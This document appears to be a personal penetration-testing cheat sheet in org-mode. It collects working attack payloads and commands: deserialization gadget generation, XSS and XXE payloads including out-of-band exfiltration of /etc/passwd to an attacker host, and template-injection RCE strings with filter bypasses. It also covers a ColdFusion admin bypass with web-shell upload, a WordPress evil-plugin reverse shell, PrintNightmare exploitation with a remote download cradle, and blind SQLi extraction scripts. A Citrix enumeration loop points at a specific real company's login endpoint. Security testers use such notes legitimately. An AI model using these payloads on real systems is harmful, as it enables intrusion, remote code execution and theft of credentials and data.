         [assembly: Debuggable(DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints)]

         // To
         [assembly: Debuggable(DebuggableAttribute.DebuggingModes.Default | DebuggableAttribute.DebuggingModes.DisableOptimizations | DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints | DebuggableAttribute.DebuggingModes.EnableEditAndContinue)]
       #+end_src
**** Deserialization
***** ysoserial.net
     - [[https://github.com/pwntester/ysoserial.net][Site]] - Deserialization payload generator
     - Visual Studio 2022 Fix - [[https://github.com/pwntester/ysoserial.net/issues/121#issuecomment-1184663158][ref]]
       #+begin_src bat
         dotnet nuget remove source nuget.org

         dotnet nuget add source https://api.nuget.org/v3/index.json -n nuget.org
       #+end_src
     - Example:
       #+begin_src bat
         type "<file-long-cmd>" | ysoserial.exe -o raw -g WindowsIdentity -f Json.Net -s
       #+end_src
***** ObjectDataProvider
     - [[https://docs.microsoft.com/en-us/dotnet/api/system.windows.data.objectdataprovider][docs.microsoft]] - ~using System.Windows.Data;~
     - From [[https://github.com/dotnet/wpf][WPF]] - Windows only
     - XML deserialization via [[https://docs.microsoft.com/en-us/dotnet/api/system.data.services.internal.expandedwrapper-2][ExpandedWrapper]]:
       #+begin_src csharp
         using System;
         using System.IO;
         using System.Xml.Serialization;

         using System.Windows.Data;
         using System.Data.Services.Internal;

         using <lib-to-call-when-deserializing>;

         namespace ODPXmlSerializer
         {
             class Program
             {
                 static void Main(string[] args)
                 {
                     var myExpWrap = new ExpandedWrapper<<class-from-lib>, ObjectDataProvider>();

                     myExpWrap.ProjectedProperty0 = new ObjectDataProvider();

                     myExpWrap.ProjectedProperty0.ObjectInstance = new <class-from-lib>();
                     myExpWrap.ProjectedProperty0.MethodName = "<method-from-lib>";
                     myExpWrap.ProjectedProperty0.MethodParameters.Add("<method-param1>");
                     myExpWrap.ProjectedProperty0.MethodParameters.Add("<method-param2>");

                     var xmlSerializer = new XmlSerializer(myExpWrap.GetType());
                     var stringWriter = new StringWriter();

                     xmlSerializer.Serialize(stringWriter, myExpWrap);

                     Console.WriteLine(stringWriter.ToString());
                 }
             }
         }
       #+end_src
*** Java
**** Decompilation
***** fernflower
     - [[https://github.com/JetBrains/intellij-community/tree/master/plugins/java-decompiler/engine][Site]] - JetBrains Intellij Decompiler
***** JD-GUI
     - [[https://java-decompiler.github.io/][Site]] - Multiplatform Decompiler
**** Deserialization
***** Java-Deserialization-Cheat-Sheet
     - [[https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet][Site]] - Java Deserialization cheatsheet
***** ysoserial
     - [[https://github.com/frohoff/ysoserial][Site]] - Java deserialization payload gen
       #+begin_src sh
         java -jar ysoserial.jar CommonsCollections1 calc.exe
       #+end_src
**** JAR
     - Create a JAR from scratch:
       - ~JAR/test.java~
         #+begin_src java
           import java.util.*

           public class test{
               public static void main(String[] args){
                   System.out.println("<test>");
               }
           }
         #+end_src
       - Compile:
         #+begin_src sh
           javac -source 1.8 -target 1.8 test.java
         #+end_src
       - ~META-INF/MANIFEST.MF~
         #+begin_src text
           Main-Class: test
         #+end_src
       - Create JAR:
         #+begin_src sh
           jar cmvf META-INF/MANIFEST.MF test.jar test.class
         #+end_src
       - Test it:
         #+begin_src sh
           java -jar test.jar
         #+end_src
*** JavaScript
**** XSS
     - Check if the XSS is running in the same page context (and not an *iframe*) with ~alert(document.domain)~ instead of ~alert(1)~
*** XML
**** Injection
***** Notes
      - When injecting the XML, note that the DOCTYPE or ELEMENT may need to be defined before XML tags (doc's beginning)
***** XSS
      #+begin_src xml
        <!-- Try first -->
        <![CDATA[<script>alert('xss')</script>]]>
        <!-- CDATA is not parsed by XML -->
        <!-- Alternate -->
        <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>

        <!-- Try with an internal XML entity -->
        <?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE test [<!ENTITY xxi "<script>alert('xss')</script>">]>
        <test>&xxi;</test>
      #+end_src
***** XXE
      #+begin_src xml
        <!-- Private (SYSTEM) -->
        <!-- "url" can be
             - a standard URL
             - file:///<full-path> - Dir trav
             - PHP wrapper (expect://<rce>)
             - Java/other implementation  -->
        <?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE test [<!ENTITY xxe SYSTEM "<url>">]>
        <test>&xxe;</test>

        <!-- Alternative with ELEMENT -->
        <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

        <!-- Note that Dir traversal may
             break the XML depending on the
             content of the file
             Encode it to bypass this     -->
        <!DOCTYPE a [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=<rel-path>">]>
        <title>&test;</title>

        <!-- Public -->
        <!-- The id after PUBLIC is optional -->
        <!DOCTYPE b [<!ENTITY pub PUBLIC "-//W3C//TEXT info//EN" "<path-to.xml>">]>
        <title>&pub;</title>

        <!-- Parameter Entities -->
        <!DOCTYPE p [<!ENTITY % param SYSTEM "alert()"> <!ENTITY xss "<script>%param</script>">]>
        <title>&xss;</title>

        <!-- Exfiltrate data - External DTD -->
        <!-- 1 - external.dtd file -->
        <!ENTITY % content SYSTEM "file:///etc/passwd">
        <!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://<attacker-ip>/out?%content;'>" >
        <!-- Start a file server -->

        <!-- 2 - Payload -->
        <?xml version="1.0" encoding="utf-8"?>
        <!DOCTYPE oob [
        <!ENTITY % base SYSTEM "http://<attacker-ip>/external.dtd">
        %base;
        %external;
        %exfil;
        ]>
        <bar>
        </bar>
        <!-- If errors try with /etc/timezone -->
      #+end_src
**** XPath Injection
***** XCat
      - [[https://github.com/orf/xcat][Repo]] - XPath injection tool - [[https://xcat.readthedocs.io][docs]]
        #+begin_src sh
          xcat detect '<url>' <param> "<param>=<val>" --true-string="<non-error-str>" --fast --concurrency=<n> -h <file.h> --encode=form -m POST
          # Change 'detect' to 'run' or 'shell'
        #+end_src
*** WebDAV
**** Notes
     - When uploading files, some formats/extensions may not be allowed (check with ~davtest~), but there may be no issue in uploading them as .txt and then renaming them (use ~cadaver~)
**** davtest
     - [[https://github.com/cldrn/davtest][Site]] - [[https://gitlab.com/kalilinux/packages/davtest][Kali-Site]] - Exploit DAV
       #+begin_src sh
         # Perform check and clean afterwards
         davtest -url <url> -cleanup
         # -auth <user:pass> | -realm <realm>

         # Upload backdoor (improved-version)
         davtest -url <url> -sendbd auto
         # See backdoor folder for valid ext
         # Non-random name: -random <name>

         # Upload file
         davtest -url <url> -uploadfile <file> -uploadloc <destination>
         # Create dirs: -directory <dir>
       #+end_src
**** Cadaver
     - [[http://webdav.org/cadaver/][Site]] - WebDAV FTP-like tool
       #+begin_src sh
         # Use -t to operate on non-DAV paths
         cadaver <url>
         # ls | cd | pwd | get | put | delete
       #+end_src
*** LUA
**** Decompilation
***** General
      - Use ~file~ to figure out the version
      - Get a decompiler from [[https://lua-users.org/][lua-users]]
***** luadec
      - [[http://files.luaforge.net/releases/luadec/luadec][Site]] - LUA 5.0 decompiler
      - To fix compilation issues run:
        #+begin_src sh
          grep -l -r getline | xargs -n1 sed -i 's/getline(/ld_&/g'
        #+end_src
***** TODO unluac
      - [[https://sourceforge.net/projects/unluac/][Site]] - LUA 5.1+
      - Custom [[https://sourceforge.net/p/unluac/discussion/general/thread/402225f086/][opmaps]] might be required
        - Use the ~--opmap <op-file>~
*** Template Engines
**** Manual
***** Detection
      - Find GET, POST or URL path that react to user input
      - Success operation payloads
        #+begin_src text
          {{7*7}}
          ${7*7}
          <%= 7*7 %>
          ${{7*7}}
          #{7*7}
          @(7*7)
        #+end_src
      - Error payloads -> Detect engine
        #+begin_src text
          ${{<%[%'"}}%\
          ${}
          {{}}
          @()
          <%= %>
          ${7/0}
          {{7/0}}
          <%= 7/0 %>
          @(7/0)
          ``
        #+end_src
      - Also try with statements performing common actions (~{%print("test")%}~) instead of just expressions (~{{7*7}}~)
**** Cheatsheets
     - [[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection][HackTricks]]
     - [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection][PayloadAllTheThings]]
**** Twig - PHP
     - Detect
       #+begin_src conf
         {{5*5}}
         {{5*'5'}}  # Also 25
         Space {{-variable-}}
       #+end_src
     - RCE
       #+begin_src conf
         {{[0]|reduce('system','whoami')}}
         # Check the docs of these functions:
         #   filter, join, map, slice, and sort

         # Data exfiliation
         {% set output %}
         {{[0]|reduce('system','whoami')}}
         {% endset %}

         {% set exfil = output| url_encode %}
         {{[0]|reduce('system','curl http://<attacker-ip>/?exfil=' ~ exfil)}}
       #+end_src
**** Apache Freemarker - Java
     - Susceptible to XSS
     - ~.ftl~ files
     - Detect
       #+begin_src conf
           ${8*8}
           ${8*'8'} # Error (Java types)
       #+end_src
     - RCE
       #+begin_src conf
         # The Java class has to implement the
         # TemplateModel class:
         ${"freemarker.template.utility.Execute"?new()("whoami")}
       #+end_src
**** Pug / Jade - NodeJS / Express FW
     - Detect
       #+begin_src conf
         # If the result is encompased by <> then
         # it is Pug as it expects the first word
         # of the line to be a tag: h1, p, div...

         #{9*9}
         #{"9"*9}  # Also 81
       #+end_src
     - RCE
       #+begin_src conf
         # 1st. Check if require mod is loaded
         = require

         # if not, see if found in the gobal obj
         = global.process.mainModule.require

         # if output, set it to a variable
         - var require = global.process.mainModule.require

         # Try loading the child_process module
         = require('child_process')

         # Run a system command
         = require('child_process').spawnSync('whoami').stdout
       #+end_src
**** Jinja - Python / Flask FW
     - Detect
       #+begin_src conf
         {{4*4}}
         {{4*"4"}}   # Jinja if 4444
         {{request}} # Jinja if <Request ...>
         {{conf}}
         {{session}}
       #+end_src
     - Configuration info
       #+begin_src conf
         {{conf|ppprint}}  # See Encryption_key
       #+end_src
     - Read files
       #+begin_src conf
         # Python 2.7
         {{''.__class__.__mro__[2].__subclasses__()[40]('<full-path-to-file>').read()}}

         # Python 3
         {{''.__class__.__mro__[1].__subclasses__()[40]('<full-path-to-file>').read()}}
       #+end_src
     - RCE
       #+begin_src conf
         # Bypass most common filters: '.',
         # '_','|join','[',']','mro','base'
         {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('<cmd>')|attr('read')()}}

         # Other bypass way using variables
         {% set string = "test" %}
         {% set class = "__class__" %}
         {% set mro = "__mro__" %}
         {% set subclasses = "__subclasses__" %}
         {% set mro_r = string|attr(class)|attr(mro) %}
         # mro_r[1] is <object> class
         {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
         # subclasses_r[420] is <subprocess> class
         {{ subclasses_r[420](["</path/to/bin>","<arg1>"])|read() }}

         # Shortest payloads
         {{ cycler.__init__.__globals__.os.popen('<cmd>').read() }}

         {{ joiner.__init__.__globals__.os.popen('<cmd>').read() }}

         {{ namespace.__init__.__globals__.os.popen('<cmd>').read() }}
       #+end_src
**** Mustache / Handlebars - JavaScript
     - Handlebars is a less restrictive Mustache
       - Only XSS & variable dump on Mustache
     - Detect
       #+begin_src conf
         # Find a variable that might be set and:
         {{#if name}}
               {{name}}
         {{/if}}

         # Try erroring for non-existing vars
         {{#each does_not_exist}}
              {{this}}
         {{/each}}
       #+end_src
     - Read files - ([[https://github.com/helpers/handlebars-helpers][handlebars-helpers]] script)
       #+begin_src conf
         # List directory
         {{#each (readdir "/tmp")}}
              {{this}}
         {{/each}}

         # Read file
         {{read "/etc/passwd"}}
       #+end_src
     - RCE depends on imported modules and the underlying implementation
**** Tplmap
     - [[https://github.com/epinna/tplmap][Site]] - SSTI detect & exploit tool
       #+begin_src sh
         # Detect if 'name' is injectable
         tplmap.py -u 'http://<ip>/page?name=John'

         # Detect if the path is injectable
         tplmap.py -u 'http://<ip>/*'

         # Run a shell
         tplmap.py --os-shell -u 'http://<ip>/page?name=John'
       #+end_src
** Apps
*** Adobe ColdFusion
**** Windows
     - From [[https://nets.ec/Coldfusion_hacking][here]]
     - Find the version in the image of the admin login: ~http://<ip>/CFIDE/administrator~
***** Administration Login Bypass
      - ~http://<ip>/CFIDE/administrator/enter.cfm~ needs to be accessible, try HTTPS if not
      - Use LFD for showing the passwords hashes:
        #+begin_src conf
          # ColdFusion 6
          http://<ip>/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%00en

          # ColdFusion 7
          http://<ip>/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%00en

          # ColdFusion 8
          http://<ip>/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en

          # Other versions
          http://<ip>/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%00en
        #+end_src
      - On the console, run the following JavaScript to get the HMAC hash:
        #+begin_src js
          hex_hmac_sha1(document.loginform.salt.value,"<LFD-password-field>")
        #+end_src
      - Start a mitm HTTP proxy for tampering the request when submitting the login form
      - Note that the user field should be ~admin~ and the password field empty when sending the request
      - On the tamperer, set the empty ~cfadminPassword~ field to the HMAC hash obtained before
      - Note that the login page reloads every 30 seconds to renew the salt, so you'll have to repeat the console step to get the new HMAC hash
      - On the tamperer, the request shall include in a field the salt and this only seem to happen when sending the empty password
***** Uploading an evil file
      - Get the currently executed path by going to the ~Server Settings > Mappings~ section in the left tab and noting the ~CFIDE~ local path (or any other that can be accessible from the web)
      - Go to ~Debugging and Logging > Scheduled Tasks~ and create a new task
        - Set the name (anything works)
        - Set the URL to your machine IP:PORT serving an evil [[https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/CFM/shell.cfm.html][cfm shell]] with ~.txt~ extension
        - Check ~Output to file~
        - Set the file path to the local ~CFIDE~ path (or any other accessible) + any name for the file (that doesn't include ~-~ or any symbol) with ~.cfm~ extension
        - Save the task
      - Run the task
      - If it fails it may be due to firewall rules ([[https://nets.ec/Coldfusion_hacking#Issues_2][workaround]]), bad permissions to write to the path, tasks permissions (check the appropriate tabs) or anything related to the filename
***** Playing with the CFM shell
      - First try to execute the suggested cmd command with a ~dir~
      - If it fails, try using only ~cmd~ in the *Command* field and ~/c <command>~ in the *Options* field
      - When uploading a file (like ~nc.exe~) locate it using ~cmd /c dir /s /a C:\*nc.exe~ and increase the *Timeout*
      - Finally, execute ~nc~ using the ~cmd /c~ to avoid possible issues regarding the *Timeout* value
*** Webmin
**** Information
     - Can perform tasks equivalent to root
     - Its access password is usually root's
     - *IMPORTANT*: There's a limit for attempting to login before locking (either permanently or temporarily)!!
**** Shellshock - CVE-2014-6271
     - Webmin uses CGI for login at: ~/session_login.cgi~
     - Use ~() { :; };sleep 10~ in the User-Agent to check for it
     - See the [[*Shellshock][Shellshock]] section
**** PrivEsc
     - Create a new task with a reverse shell
*** Citrix
**** Login Schema Enumeration
     - Find the default ~StateContext~ by intercepting a login attempt, changing it to an invalid value and checking the value of ~StateContext~ in the response
     - Used for downgrading login ([[https://carlstalhood.com/page/29/?cat=-1#loginschema][schemas ref]]):
       #+begin_src sh
         while read l; do sc="$(echo -n "loginschema=$l" | base64 -w0)"; curl -s -k --data-urlencode "StateContext=$sc" 'https://remote.axa.be/nf/auth/doAuthentication.do' | grep -q 'bG9naW5zY2hlbWE9ZGVmYXVsdA==' || echo "$l - $sc"; sleep 1; done <<EOF
         CheckBox
         ClientCertDualAuthDeviceID
         ClientCertSingleAuthDeviceID
         DeviceID_Cert
         DomainDropdown
         DualAuth
         DualAuth_Flipped
         DualAuthDeviceID
         OntyDeviceID
         OnlyDomainDropdown
         OnlyOAuthToken
         OnlyPassword
         OnlyUsername
         PrefilUserFromExpr
         SingleAuthCaptcha
         SingleAuthDeviceID
         EOF
       #+end_src
     - Intercept a login attempt and replace the ~StateContext~ base64 value
*** Salesforce
**** Endpoint Enumeration
     - [[https://infosecwriteups.com/in-simple-words-pen-testing-salesforce-saas-application-part-2-fuzz-exploit-eefae11ba5ae][Guide]]
     - Search for this in the Proxy history:
       - /s/sfsites/aura         - URL
       - /sfsites/aura           - URL
       - /aura                   - URL
       - aura.ApexAction.execute - GET param
       - message                 - POST param
       - aura.context            - POST param
       - aura%3a%2f%2f           - Encoded param
       - apex%3a%2f%2f           - Encoded param
     - Grep in ~app.js~ or ~aura_prod.js~ for
       - ~componentService.initControllerDefs([{~
**** Endpoint Interaction
     - Better use an existing POST to aura as template as it might require additional params like ~aura.context~ or ~aura.token~
     - URL-decode ~message~ and replace the:
       - /"descriptor":/ <controller>
       - /"classname":/ <apex-class>
       - /"method":/ <class-method>
       - /"params":{/ <params> /}/
     - Only [[https://developer.salesforce.com/docs/atlas.en-us.apexcode.meta/apexcode/apex_interface_System_Callable.htm#apex_interface_System_Callable][Callable Apex Classes]] can be invoked this way
*** CMS
**** Wordpress
***** WPScan
      - [[https://github.com/wpscanteam/wpscan][Site]] - WP/Plugin/Site enumeration:
        #+begin_src sh
          # Update Plugin DB
          wpscan --update

          # Complete vuln scan & User-enum
          wpscan --url <url> --api-token <id>
          # Get the token in wpscan.com
          # Set if WP URI is non-default:
          # --wp-content-dir|--wp-plugins-dir
          # --force - Force scanning site
          # --random-user-agent - WAF bypass
          # --proxy - Run through proxy
          # Just use the WP/Plugin versions
          # in searchsploit, ignore the links

          # Pass bruteforce
          wpscan --url <url> -e u --passwords <wordlist>

          # Enumerate all plugins/themes
          wpscan --url <url> -e at,ap --api-token <id>
        #+end_src
***** Privilege Escalation
****** Database
******* Notes
        - These steps are to be performed if PHPmyadmin or a SQLi give DB access
******* Steal Session
        - Find the active sessions in the table ~wp_usermeta~ looking at the columns:
          - ~meta_key = session_tokens~
        - Check that the ~user_id~ of the session corresponds to one with admin privileges (see below how)
******* Modify Admin Password
        - Find the ~user_id~ of the admin in the table ~wp_usermeta~ looking at the columns:
          - ~user_id~
          - ~meta_key = wp_capabilities~
          - ~meta_value LIKE administrator~
        - Find the username corresponding to the ~user_id~ in the ~wp_users~ table:
          - ~ID~ should corresponds to ~user_id~
          - Check ~user_login~ & ~user_nicename~
        - Modify the ~user_pass~ value to one generated with the same hash
        - Use ~Name-That-Hash~ for hash id
        - If ~phpass~ type, use ~openssl~ to generate a new password:
          #+begin_src sh
            # phpass is salted MD5
            openssl passwd -1 '<password>'
            # -salt <salt> - Use salt value
          #+end_src
****** Uploads
       - Create an evil PHP file with the format: ~<?php <payload>; ?>~
       - Find any upload point (media/plugins/themes) and select the ~evil.php~ (not zipped) as file
       - Even if it fails, try to find it under:
         - ~/wp-content/uploads/evil.php~
         - or ~/uploads/evil.php~
****** Plugins
       - Evil plugin content:
         #+begin_src php
           <?php
             /**
             * Plugin Name: Evil Plugin
             * Plugin URI:
             * Description: Evil Plugin
             * Version: 1.0
             * Author: Test
             * Author URI: http://example.com
             */

             <payload>
             // Either use msfvenom or exec
             // exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
           ?>
         #+end_src
       - Package it:
         #+begin_src sh
           zip -r evil.zip evil.php
         #+end_src
       - Upload: ~/wp-admin/plugin-install.php~
       - Activate it (optional)
       - Or find it under:
         - ~/wp-content/plugins/evil/evil.php~
         - or ~/plugins/evil/evil.php~
       - Alternatively you may install a vulnerable [[https://www.exploit-db.com/exploits/36374][legit plugin]]
****** Themes
       - Create an evil PHP file with the format: ~<?php <payload>; ?>~
       - Package it:
         #+begin_src sh
           zip -r evil.zip evil.php
         #+end_src
       - Upload: ~/wp-admin/theme-install.php~
       - Activate it (optional)
       - Find it under:
         - ~/wp-content/themes/evil/evil.php~
         - or ~/themes/evil/evil.php~
****** Editor
       - Go to: ~/wp-admin/theme-editor.php~
       - Select a php file/template (~404.php~)
       - Check at the bottom that it can be modified
       - Replace with: ~<?php <payload>; ?>~
       - Find the modified file under:
         - ~/wp-content/themes/<theme>/404.php~
         - or ~/themes/<theme>/404.php~
**** Drupal
***** droopescan
      - [[https://github.com/droope/droopescan][Site]] - Drupal/WP/Silverstripe scanner
        #+begin_src sh
          droopescan scan drupal -u <url>
          # -U <file> - List of URLs to scan
          # --method {not_found,forbidden,ok}
          #  Use a different test method
        #+end_src
**** Joomla
***** Joomscan
      - [[https://github.com/OWASP/joomscan][Site]] - OWASP Joomla scanner:
        #+begin_src sh
          # -ec enumerates components
          joomscan.pl -u <url> -ec
          # -a <UA> - Set User-Agent
          # -r - Random User-Agent
          # --cookie <str-cookie>
          # --timeout <num>

          joomscan.pl --update
        #+end_src
***** JoomlaScan
      - [[https://github.com/drego85/JoomlaScan][Site]] - Joomla scanner:
        #+begin_src sh
          joomlascan.py -u <url> -t 30
          # -t <threads>
        #+end_src

* Cloud
** Common Addresses
*** Link-Local
   - Hosting providers: 169.254.169.254

* Software
** Windows
*** Print Spooler - CVE-2021-1675
**** Detection
     - Check if the ~spool~ service is active
     - For patched systems check this:
       #+begin_src bat
         REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"

         :: Still vulnerable if it returns:
         HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
           RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
           NoWarningNoElevationOnInstall    REG_DWORD    0x1
       #+end_src
**** Invoke-Nightmare
     - [[https://github.com/calebstewart/CVE-2021-1675][Site]] - PowerShell Local LPE PrivEsc
       #+begin_src bat
         Import-Module .\cve-2021-1675.ps1

         :: Or load from remote server
         IEX(New-Object Net.Webclient).downloadstring('http://<ip>/cve-2021-1675.ps1')

         :: Add new admin user
         Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "password"

         :: Execute DLL as admin
         Invoke-Nightmare -DLL "C:\path\to\bindshell.dll"
       #+end_src
**** Cube0x0 Impacket RCE - Remote
     - [[https://github.com/cube0x0/CVE-2021-1675][Site]] - Remote Exploit CVE-2021-34527:
       #+begin_src sh
         # Scan for the vulnerability
         rpcdump.py @<ip> | grep 'MS-RPRN\|MS-PAR'

         # Check the site for steps to build
         ./CVE-2021-1675.py <dom>/<usr>:<pwd>@<ip> '\\<local-ip>\share\addCube.dll'
       #+end_src
     - [[https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html#cube0x0-impacket-rce][Another guide]]
**** printerbug.py
     - [[https://github.com/dirkjanm/krbrelayx][Site]] - Auth -> SpoolService bug -> SMB
       #+begin_src sh
         # Force auth with attacker responder
         printerbug.py [[<dom>/]<user>[:<pass>]@]<host/ip> <attacker-ip>
       #+end_src

* SQL
** SQLi
*** Bruteforce
**** Dictionaries
    - Use the [[https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi][SecLists]]:
      - [[https://github.com/danielmiessler/SecLists/raw/master/Fuzzing/SQLi/quick-SQLi.txt][quick-SQLi]]
      - [[https://github.com/danielmiessler/SecLists/raw/master/Fuzzing/SQLi/Generic-SQLi.txt][Generic-SQLi]]
      - [[https://github.com/danielmiessler/SecLists/raw/master/Fuzzing/SQLi/Generic-BlindSQLi.fuzzdb.txt][Generic-BlindSQLi]] <- Last resort
**** Ffuf
     - [[https://github.com/ffuf/ffuf][Site]] - Most flexible fuzzer:
       #+begin_src sh
         # Capture request: FUZZ in usr/pass
         ffuf -request <req> -mode pitchfork -c -ac -w <wlist>
         # -request-proto http - Force HTTP
       #+end_src
*** Blind
    - SQLi to use with the command below:
      #+begin_src sql
        -- URL encoded
        %'))%20and%20strcmp(upper(substr(database(),$1,1)),'$2')%3d0%20--%20
      #+end_src
    - ~zsh~ command:
      #+begin_src sh
        # curl.sh contains Burp copy-to-curl
        # sh <<EOF
        #   curl -X POST -H $'...' -d '...'
        # curl method without $'..' -> '..'
        echo; for ((i=1;;i++)); do for c in {65..96} {32..64} {123..126}; do c="$(([##16]c))"; while :; do sleep 1; { ./curl.sh "$i" "%$c" || continue } | { grep -m1 -q 'Agradecido' && { echo -ne "\x$c"; continue 3 } }; break; done; done; break; done; echo
        # curl.sh can also be a function
      #+end_src
*** Time-based
    - SQLi to use with the command below:
      #+begin_src sql
        -- URL encoded
        -- Used for str concatenation
        '%2b(select%20'a'%20union%20SELECT(if((STRCMP(upper(substring(CURRENT_USER(),$1,1)),'$2'))%3d0,SLEEP(10),0)))%2b'

        -- Used for AND sqli
        ')+AND+(SELECT+1310+FROM+((SELECT(if((STRCMP(upper(substring(CURRENT_USER(),$1,1)),%27$2%27))%3d0,SLEEP(20),0))))fDpl)--+'
      #+end_src
    - ~zsh~ command:
      #+begin_src sh
        # curl.sh contains Burp copy-to-curl
        # sh <<EOF
        #   curl -s -o /dev/null -H $'...'
        # curl method without $'..' -> '..'
        echo; for ((i=1;;i++)); do for c in {65..96} {32..64} {123..126}; do c="$(([##16]c))"; while :; do sleep 1; timeout 6 ./curl.sh "$i" "%$c" && break; [ $? -eq 124 ] && { echo -ne "\x$c"; continue 3 }; done; done; break; done; echo
        # curl.sh can be: "$0 $i %$c curl"
      #+end_src
*** Tools
**** SQLmap
    - [[https://github.com/sqlmapproject/sqlmap][Site]] - Automated SQLi and dumper tool
      #+begin_src sh
        # TODO - General flag description
        sqlmap -u '<url>' -p '<params>'
        # -p <p1>,<p2..>  - Params to test
        # --dbms=<DB>     - Only test for a DB
        # --dump          - Dump all tables
        # --flush-session - Forget saved session

        # Examples:

        # POST request with multiple parameters
        sqlmap -u '<url>' --method POST --data "db=mysql&name=user&sort=id&order=asc" -p "name,sort,order"
      #+end_src
** General
*** Find all databases
**** T-SQL
     #+begin_src sql
       SELECT name FROM master.sys.databases

       -- Older
       SELECT name FROM master.dbo.sysdatabases

       -- Alternative
       EXEC sp_databases
     #+end_src
*** Select a database
    #+begin_src sql
      USE <database>
    #+end_src
*** Find all schemas
    - From [[https://dba.stackexchange.com/a/93923][here]]:
      #+begin_src sql
        SELECT schema_name FROM information_schema.schemata
      #+end_src
*** Find all tables
    - General:
      #+begin_src sql
        -- From currently selected DB
        SELECT table_name FROM information_schema.tables

        -- From non-selected DB
        SELECT table_name FROM <db>.information_schema.tables
      #+end_src
    - Associated with a schema:
      #+begin_src sql
          SELECT table_name FROM information_schema.tables where table_schema = '<schema>'
      #+end_src
    - Associated with their DBs:
      #+begin_src sql
        -- Some DBs may require using AS when declaring the identifier:
        -- information_schema.schemata AS s
        SELECT s.schema_name, t.table_name FROM information_schema.schemata s INNER JOIN information_schema.tables t ON s.schema_name = t.table_schema ORDER BY schema_name, table_name
      #+end_src
*** Find the columns in a table
    - Identify them and their types:
      #+begin_src sql
        SELECT column_name, data_type FROM information_schema.columns WHERE table_name='<table-name>'
    #+end_src
    - Then query the table:
      #+begin_src sql
        SELECT <column> FROM <table-name>

        -- Using a DB object
        SELECT <column> FROM <dbo>.<table-name>

        -- The databases listed in inf schema
        -- may need to be accessed by
        -- Using a DB object
        SELECT <column> FROM <db>.dbo.<table-name>
      #+end_src
*** Find the collation of table
    - Querying the schema:
      #+begin_src sql
        SELECT collation_name FROM information_schema.columns WHERE column_name='name' AND table_name='<table-name>'
      #+end_src
    - Collate the return value:
      #+begin_src sql
        SELECT name COLLATE <collation-name> FROM <table-name>
      #+end_src
** MySQL
*** Connection
**** Linux
***** mysql
      - MySQL client
        #+begin_src sh
          mysql -u <usr> -D <db> -p [<pass>]
          # -P <port> - Different port
          # -h <ip>   - Remote connection
          # -C        - Use compression
          # -e <cmd>  - Oneshot command/query
          # -r        - Raw output
        #+end_src
*** Enumeration
    - List tables and system users
      #+begin_src sql
        -- List all databases
        SHOW DATABASES;

        -- Change database
        USE <db-name>

        -- Tables in the selected DB
        SHOW TABLES;

        -- List 'system' table
        SELECT * from <db>.system

        -- All system users info
        SELECT * from mysql.user;

        -- User currently running the DB
        SELECT CURRENT_USER();

        -- User who started the DB
        SELECT USER();

        -- User's permissions
        SELECT CURRENT_ROLE();

        -- MySQL server version
        SELECT VERSION();

        -- Current database
        SELECT DATABASE();

        -- Current server variables
        SHOW VARIABLES;
      #+end_src
    - Extract version - error based
      #+begin_src sql
        extractvalue('',concat('>',version()));

        -- Multi-data concat (table names)
        extractvalue('',concat('>',(
          SELECT group_concat(table_schema)
          FROM (
            SELECT table_schema
            FROM information_schema.tables
            GROUP BY table_schema)
          AS foo)
        )
        -- Errors might be limited to 32 chars

        -- Iterate over the tables by indexes
        extractvalue('',concat('>',(
          SELECT group_concat(table_name)
          FROM (
            SELECT table_name
            FROM information_schema.tables
            WHERE table_schema='master'
            LIMIT 2 offset 2)
          AS foo)
        )

        -- Do the same with the column names
        extractvalue('',concat('>',(
          SELECT group_concat(column_name)
          FROM (
            SELECT column_name
            FROM information_schema.columns
            WHERE table_schema='master'
            AND table_name='users')
          AS foo)
        )

        -- Extract passwords 32 chars at a time
        extractvalue('',concat('>',(
          SELECT substring(password,1,32)
          FROM users
          LIMIT 1
          offset 0)
        )
      #+end_src
*** Read/Write Files
    - RW permissions limited to ~secure_file_priv~:
      #+begin_src sql
        -- Nothing means no restrictions
        SELECT @@GLOBAL.secure_file_priv;
      #+end_src
    - Write table to file:
      #+begin_src sql
        SELECT * FROM users INTO OUTFILE '/tmp/users.txt';
      #+end_src
    - Read file using function:
      #+begin_src sql
        SELECT LOAD_FILE('/tmp/users.txt');
      #+end_src
** T-SQL (MSSQL)
*** Connection
**** Windows
     - ~osql~:
       #+begin_src bat
         :: Use default auth and master db
         osql -E
         :: Run the commands with: go
       #+end_src
     - ~sqlcmd~:
       #+begin_src bat
         :: Almost like osql
         sqlcmd -E
         :: Set the output width: -w<cols>
